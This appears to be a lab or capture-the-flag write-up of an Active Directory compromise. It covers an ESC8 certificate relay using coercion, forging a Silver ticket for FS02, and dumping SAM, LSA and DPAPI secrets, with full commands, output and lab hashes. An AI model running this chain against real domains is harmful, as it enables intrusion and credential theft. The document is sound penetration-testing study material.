

As usual I will start by performing a full scan of all the open TCP services on this machine:

```bash
PORT      STATE SERVICE       REASON         VERSION
445/tcp   open  microsoft-ds? syn-ack ttl 64
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49684/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/1%OT=445%CT=%CU=%PV=Y%G=N%TM=69CD1B40%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=105%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=108%GCD=2%ISR=106%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 3.113 days (since Sun Mar 29 12:36:51 2026)
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51435/tcp): CLEAN (Timeout)
|   Check 2 (port 54680/tcp): CLEAN (Timeout)
|   Check 3 (port 4775/udp): CLEAN (Timeout)
|   Check 4 (port 61206/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| nbstat: NetBIOS name: FS02, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:c7:de (VMware)
| Names:
|   FS02<00>             Flags: <unique><active>
|   IT-IFRIT<00>         Flags: <group><active>
|   FS02<20>             Flags: <unique><active>
| Statistics:
|   00 50 56 94 c7 de 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time: 
|   date: 2026-04-01T13:18:16
|_  start_date: N/A

TRACEROUTE
HOP RTT      ADDRESS
1   14.18 ms 172.16.41.210

```

# ADCS

Here I has to ask for a small nudge and apparently continuing on the IT realm was the right way, and apparently something I have not checked before it is the ADCS the next step to DA.

```
└─$ certipy-ad find -u 'SQL07$@it-ifrit.vl' -hashes :6b0bd589ec7ee653528cd118e1aeef14 -dc-ip 172.16.41.17  -stdout -vulnerable
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'it-ifrit-CA' via RRP
[*] Successfully retrieved CA configuration for 'it-ifrit-CA'
[*] Checking web enrollment for CA 'it-ifrit-CA' @ 'DC07.it-ifrit.vl'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : it-ifrit-CA
    DNS Name                            : DC07.it-ifrit.vl
    Certificate Subject                 : CN=it-ifrit-CA, DC=it-ifrit, DC=vl
    Certificate Serial Number           : 147835D27598FBA04FF2912FBC9E189C
    Certificate Validity Start          : 2024-07-14 09:55:36+00:00
    Certificate Validity End            : 2526-04-05 02:36:15+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : True
        Channel Binding (EPA)           : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : IT-IFRIT.VL\Administrators
      Access Rights
        ManageCa                        : IT-IFRIT.VL\Administrators
                                          IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
        ManageCertificates              : IT-IFRIT.VL\Administrators
                                          IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
        Enroll                          : IT-IFRIT.VL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP and HTTPS, and Channel Binding is disabled.
Certificate Templates                   : [!] Could not find any certificate templates
```

Now as you see the **ESC8** might be viable as the Web enrollment is active, but except that I do not see any vulnerable certificates on the CA, but I am thinking about also that since there is only one CA in both the realms( IT & EU) and *SQL07* is the only SQL server in the pool, the CA database might be installed there?

Now the goal here is to abuse the missing signature check and redirect the coercion from a computer object(*SQL07* in this case) and redirect it back to the CA server(**DC07**).

In one tab i setup a SMB listening server that will redirect it back to the CA server:

```
└─$ sudo certipy-ad relay -target 172.16.41.17 -template DomainController
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Targeting http://172.16.41.17/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server on port 445
```

On the other side I can try to coerce to the DC:

```
└─$ netexec smb 172.16.41.17 -u 'SQL07$' -H 6b0bd589ec7ee653528cd118e1aeef14 -M coerce_plus -o LISTENER=10.10.16.8
SMB         172.16.41.17    445    DC07             [*] Windows Server 2022 Build 20348 x64 (name:DC07) (domain:it-ifrit.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.41.17    445    DC07             [+] it-ifrit.vl\SQL07$:6b0bd589ec7ee653528cd118e1aeef14 
COERCE_PLUS 172.16.41.17    445    DC07             VULNERABLE, DFSCoerce
COERCE_PLUS 172.16.41.17    445    DC07             Exploit Success, netdfs\NetrDfsRemoveRootTarget
COERCE_PLUS 172.16.41.17    445    DC07             Exploit Success, netdfs\NetrDfsAddStdRoot
COERCE_PLUS 172.16.41.17    445    DC07             Exploit Success, netdfs\NetrDfsRemoveStdRoot
COERCE_PLUS 172.16.41.17    445    DC07             VULNERABLE, PetitPotam
COERCE_PLUS 172.16.41.17    445    DC07             Exploit Success, efsrpc\EfsRpcAddUsersToFile
COERCE_PLUS 172.16.41.17    445    DC07             VULNERABLE, PrinterBug
COERCE_PLUS 172.16.41.17    445    DC07             VULNERABLE, PrinterBug
COERCE_PLUS 172.16.41.17    445    DC07             VULNERABLE, MSEven
```

But it fails for some reason and the rason is that SMB signing is active and enforced so I went back to Certipy and there might be another target to get first before the DC and it is the FileSystem server **FS02**.

```
Certificate Templates
  0
    Template Name                       : IT-Computers
    Display Name                        : IT-Computers
    Certificate Authorities             : it-ifrit-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 500 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Template Created                    : 2024-07-14T10:07:37+00:00
    Template Last Modified              : 2024-08-02T09:10:28+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : IT-IFRIT.VL\FS02
                                          IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : IT-IFRIT.VL\Administrator
        Full Control Principals         : IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
        Write Owner Principals          : IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
        Write Dacl Principals           : IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
        Write Property Enroll           : IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
```

In this case the FS02 is capable of enrolling it, no manager approval, can be used to perform a client authentication and nonetheless it is vulnerable to a ESC1 type of attack via that **EnrolleeSuppliesSubject equal to TRUE**.

Now my first attempt was to perform the PetitPotam attack on the FS02 and rolling it back, the authentication on the webenrollment passed but it kept failing, and the debug mode show the issue:

```
└─$ sudo certipy-ad relay -target 172.16.41.17 -ca it-ifrit-CA -template IT-Computers -debug
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Targeting http://172.16.41.17/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server on port 445
[*] (SMB): Received connection from 10.10.110.3, attacking target http://172.16.41.17
[+] Using target: http://172.16.41.17/certsrv/certfnsh.asp...
[+] Base URL: http://172.16.41.17
[+] Path: /certsrv/certfnsh.asp
[+] Using timeout: 10
[+] Using path: /certsrv/certfnsh.asp
[+] Using path: /certsrv/certfnsh.asp
[*] HTTP Request: GET http://172.16.41.17/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://172.16.41.17/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://172.16.41.17/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[+] HTTP server returned status code 200, treating as successful login
[*] (SMB): Authenticating connection from IT-IFRIT/FS02$@10.10.110.3 against http://172.16.41.17 SUCCEED [1]
[+] Generating RSA key
[*] Requesting certificate for 'IT-IFRIT\\FS02$' based on the template 'IT-Computers'
[*] http://IT-IFRIT/FS02$@172.16.41.17 [1] -> HTTP Request: POST http://172.16.41.17/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] Request ID is 47
[-] Unknown error from AD CS

<HTML>
<Head>
    <Meta HTTP-Equiv="Content-Type" Content="text/html; charset=UTF-8">
    <Meta HTTP-Equiv="X-UA-Compatible" Content="IE=7">
    <Title>Microsoft Active Directory Certificate Services</Title>
</Head>
<Body BgColor=#FFFFFF Link=#0000FF VLink=#0000FF ALink=#0000FF><Font ID=locPageFont Face="Arial">

<Table Border=0 CellSpacing=0 CellPadding=4 Width=100% BgColor=#008080>
<TR>
    <TD><Font Color=#FFFFFF><LocID ID=locMSCertSrv><Font Face="Arial" Size=-1><B><I>Microsoft</I></B> Active Directory Certificate Services &nbsp;--&nbsp; it-ifrit-CA &nbsp;</Font></LocID></Font></TD>
    <TD ID=locHomeAlign Align=Right><A Href="/certsrv"><Font Color=#FFFFFF><LocID ID=locHomeLink><Font Face="Arial" Size=-1><B>Home</B></Font></LocID></Font></A></TD>
</TR>
</Table>

<P ID=locPageTitle> <B> Certificate Request Denied </B>
<!-- Green HR --><Table Border=0 CellSpacing=0 CellPadding=0 Width=100%><TR><TD BgColor=#008080></TD></TR></Table>


<P ID=locDenied> Your certificate request was denied. </P>


<P ID=locInfoReqIDandReason>


Your Request Id is 47. The disposition message is "Denied by Policy Module  The certificate validity period will be shorter than the IT-Computers Certificate Template specifies, because the template validity period is longer than the maximum certificate validity period allowed by the CA.  Consider renewing the CA certificate, reducing the template validity period, or increasing the registry validity period.
".
</P>

<P ID=locContactAdmin>Contact your administrator for further information.
</P>

<!-- Green HR --><Table Border=0 CellSpacing=0 CellPadding=0 Width=100%><TR><TD BgColor=#008080></TD></TR></Table>
<!-- White HR --><Table Border=0 CellSpacing=0 CellPadding=0 Width=100%><TR><TD BgColor=#FFFFFF></TD></TR></Table>

</Font>
<!-- ############################################################ -->
<!-- End of standard text. Scripts follow  -->

<!-- No scripts -->

</Body>
</HTML>

Would you like to save the private key? (y/N): [*] (SMB): Received connection from 10.10.110.3, attacking target http://172.16.41.17
[+] Using target: http://172.16.41.17/certsrv/certfnsh.asp...
[+] Base URL: http://172.16.41.17
[+] Path: /certsrv/certfnsh.asp
[+] Using timeout: 10
[+] Using path: /certsrv/certfnsh.asp
[+] Using path: /certsrv/certfnsh.asp
[*] HTTP Request: GET http://172.16.41.17/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://172.16.41.17/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"

[*] Exiting...
```

For some damn reason they configured the template with a validity of 500 years that's bonkers:



But using the Machine template it worked and now I have a private certificate I could use to make a Silver ticket:

```
└─$ sudo certipy-ad relay -target 172.16.41.17 -ca it-ifrit-CA -template Machine -debug            
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Targeting http://172.16.41.17/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server on port 445
[*] (SMB): Received connection from 10.10.110.3, attacking target http://172.16.41.17
[+] Using target: http://172.16.41.17/certsrv/certfnsh.asp...
[+] Base URL: http://172.16.41.17
[+] Path: /certsrv/certfnsh.asp
[+] Using timeout: 10
[+] Using path: /certsrv/certfnsh.asp
[+] Using path: /certsrv/certfnsh.asp
[*] HTTP Request: GET http://172.16.41.17/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://172.16.41.17/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://172.16.41.17/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[+] HTTP server returned status code 200, treating as successful login
[*] (SMB): Authenticating connection from IT-IFRIT/FS02$@10.10.110.3 against http://172.16.41.17 SUCCEED [1]
[+] Generating RSA key
[*] Requesting certificate for 'IT-IFRIT\\FS02$' based on the template 'Machine'
[*] (SMB): Received connection from 10.10.110.3, attacking target http://172.16.41.17
[+] Using target: http://172.16.41.17/certsrv/certfnsh.asp...
[+] Base URL: http://172.16.41.17
[+] Path: /certsrv/certfnsh.asp
[+] Using timeout: 10
[+] Using path: /certsrv/certfnsh.asp
[+] Using path: /certsrv/certfnsh.asp
[*] HTTP Request: GET http://172.16.41.17/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://172.16.41.17/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] http://IT-IFRIT/FS02$@172.16.41.17 [1] -> HTTP Request: POST http://172.16.41.17/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] Certificate issued with request ID 48
[*] Retrieving certificate for request ID: 48
[*] http://IT-IFRIT/FS02$@172.16.41.17 [1] -> HTTP Request: GET http://172.16.41.17/certsrv/certnew.cer?ReqID=48 "HTTP/1.1 200 OK"
[*] Got certificate with DNS Host Name 'FS02.it-ifrit.vl'
[+] Found SID in security extension: 'S-1-5-21-2679633274-2572298512-61362222-1104'
[*] Certificate object SID is 'S-1-5-21-2679633274-2572298512-61362222-1104'
[*] Saving certificate and private key to 'fs02.pfx'
[+] Attempting to write data to 'fs02.pfx'
[+] Data written to 'fs02.pfx'
[*] Wrote certificate and private key to 'fs02.pfx'
[*] Exiting...
```

And now I can use the certificate to obtain the NTLM hash of the machine as well:

```
└─$ certipy-ad auth -pfx fs02.pfx -dc-ip 172.16.41.17
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'FS02.it-ifrit.vl'
[*]     Security Extension SID: 'S-1-5-21-2679633274-2572298512-61362222-1104'
[*] Using principal: 'fs02$@it-ifrit.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'fs02.ccache'
[*] Wrote credential cache to 'fs02.ccache'
[*] Trying to retrieve NT hash for 'fs02$'
[*] Got hash for 'fs02$@it-ifrit.vl': aad3b435b51404eeaad3b435b51404ee:4a01e9d8986475ce7aa5e8d6be46b162
```

Now the next goal is to craft a Silver ticket so I can dump everything from the FileSystem as local Administrator:

```bash
└─$ impacket-ticketer -nthash 4a01e9d8986475ce7aa5e8d6be46b162 -domain-sid S-1-5-21-2679633274-2572298512-61362222 -domain it-ifrit.vl -spn cifs/fs02.it-ifrit.vl Administrator
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for it-ifrit.vl/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in Administrator.ccache
                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Ifrit]
└─$ export KRB5CCNAME=Administrator.ccache                                             
                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Ifrit]
└─$ klist
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@IT-IFRIT.VL

Valid starting       Expires              Service principal
2026-04-05 16:37:10  2036-04-02 16:37:10  cifs/fs02.it-ifrit.vl@IT-IFRIT.VL
    renew until 2036-04-02 16:37:10

```

And dump all the secrets from the machine:

```bash
└─$ netexec smb fs02.it-ifrit.vl --use-kcache --sam --lsa --dpapi
SMB         fs02.it-ifrit.vl 445    FS02             [*] Windows Server 2022 Build 20348 x64 (name:FS02) (domain:it-ifrit.vl) (signing:False) (SMBv1:None)
SMB         fs02.it-ifrit.vl 445    FS02             [+] IT-IFRIT.VL\Administrator from ccache (Pwn3d!)
SMB         fs02.it-ifrit.vl 445    FS02             [*] Dumping SAM hashes
SMB         fs02.it-ifrit.vl 445    FS02             Administrator:500:aad3b435b51404eeaad3b435b51404ee:bd33b52af265c923a4cd896795c1118d:::
SMB         fs02.it-ifrit.vl 445    FS02             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         fs02.it-ifrit.vl 445    FS02             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         fs02.it-ifrit.vl 445    FS02             WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ca8dd0b7db87037de5c3a2a1018357b6:::
SMB         fs02.it-ifrit.vl 445    FS02             [+] Added 4 SAM hashes to the database
SMB         fs02.it-ifrit.vl 445    FS02             [*] Dumping LSA secrets
SMB         fs02.it-ifrit.vl 445    FS02             IT-IFRIT\FS02$:plain_password_hex:c66aefae7dd2621276e0c279b4f307f93001c50db61bcffafeb206f2b9a10653a6af272ef2ce26074e8e35a9b25f02053e8b5fcd7c62079c07d499e0f762c4b66f9036ac49d3ed44c15bf40d603ee34b4686bd3c712836784d837937cd7039d99ecea7af116138a7fa801f2cc99508e4595fa76c9248fd38fe9e2ca2f5b353a4bf1e016ddcf6fe7d5d563e14a84647e5daf91ce0f9cd398c9095a1948ce18702e795aec2557753c067597bbf2ff7ce3b3dd53348cfe836f4c6d41e3fc4acbedc92fcaf9640998ed15fb6277c002917723c5aabaf686a949404884175521d5ded1189738ff938dc04a7932980735cea8e
SMB         fs02.it-ifrit.vl 445    FS02             IT-IFRIT\FS02$:aad3b435b51404eeaad3b435b51404ee:4a01e9d8986475ce7aa5e8d6be46b162:::
SMB         fs02.it-ifrit.vl 445    FS02             dpapi_machinekey:0x8bb03a4fa3440723b60cb9280d54b8502bb0c8bd
dpapi_userkey:0xe95ad57542cd89bdaa5e64667492bfec6bd226b5
SMB         fs02.it-ifrit.vl 445    FS02             [+] Dumped 3 LSA secrets to /home/millycash/.nxc/logs/lsa/FS02_fs02.it-ifrit.vl_2026-04-05_163819.secrets and /home/millycash/.nxc/logs/lsa/FS02_fs02.it-ifrit.vl_2026-04-05_163819.cached
SMB         fs02.it-ifrit.vl 445    FS02             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         fs02.it-ifrit.vl 445    FS02             [+] Got 6 decrypted masterkeys. Looting secrets...

```

But wait there is no flag under admin machine?

```bash
evil-winrm-py PS C:\Users> tree /f
Folder PATH listing
Volume serial number is BE7F-13C2
C:.
+---Administrator
¦   +---3D Objects
¦   +---Contacts
¦   +---Desktop
¦   ¦       Microsoft Edge.lnk
¦   ¦       
¦   +---Documents
¦   +---Downloads
¦   +---Favorites
¦   ¦   ¦   Bing.url
¦   ¦   ¦   
¦   ¦   +---Links
¦   +---Links
¦   ¦       Desktop.lnk
¦   ¦       Downloads.lnk
¦   ¦       
¦   +---Music
¦   +---Pictures
¦   +---Saved Games
¦   +---Searches
¦   +---Videos
+---Public
    +---Documents
    +---Downloads
    +---Music
    +---Pictures
    +---Videos
evil-winrm-py PS C:\Users>

```

I will move on to the DC07 for the final step to DA on the IT realm.

&nbsp;